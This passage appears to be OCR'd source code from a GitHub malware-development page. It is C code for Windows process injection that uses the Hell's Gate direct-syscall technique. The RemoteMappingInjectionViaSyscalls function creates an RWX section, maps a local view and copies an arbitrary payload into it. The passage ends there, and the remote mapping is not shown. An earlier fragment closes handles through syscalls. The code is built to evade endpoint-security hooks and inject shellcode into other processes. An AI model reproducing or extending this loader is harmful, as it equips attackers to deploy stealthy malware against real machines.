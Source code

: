 ```
		printf("[!] NtUnmapViewOfSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	// Closing the section handle
	HellsGate(pVxTable->NtClose.wSystemCall);
	if ((STATUS = HellDescent(hSection)) != 0) {
		printf("[!] NtClose Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	return TRUE;
}


```
### **RemoteMappingInjectionViaSyscalls**


```
BOOL RemoteMappingInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	HANDLE				hSection			= NULL;
	HANDLE				hThread				= NULL;
	PVOID				pLocalAddress		= NULL,
					    pRemoteAddress		= NULL;
	NTSTATUS			STATUS				= NULL;
	SIZE_T				sViewSize			= NULL;
	LARGE_INTEGER		MaximumSize 	    = {
			.HighPart = 0,
			.LowPart = sPayloadSize
	};

//--------------------------------------------------------------------------
	// Allocating local map view

	HellsGate(pVxTable->NtCreateSection.wSystemCall);
	if ((STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL)) != 0) {
		printf("[!] NtCreateSection Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	HellsGate(pVxTable->NtMapViewOfSection.wSystemCall);
	if ((STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL, &sViewSize, ViewShare, NULL, PAGE_READWRITE)) != 0) {
		printf("[!] NtMapViewOfSection [L] Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Local Memory Allocated At : 0x%p Of Size : %d \n", pLocalAddress, sViewSize);

//--------------------------------------------------------------------------

	// Writing the payload
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();
	memcpy(pLocalAddress, pPayload, sPayloadSize);
	printf("\t[+] Payload is Copied From 0x%p To 0x%p \n", pPayload, pLocalAddress);

//--------------------------------------------------------------------------

```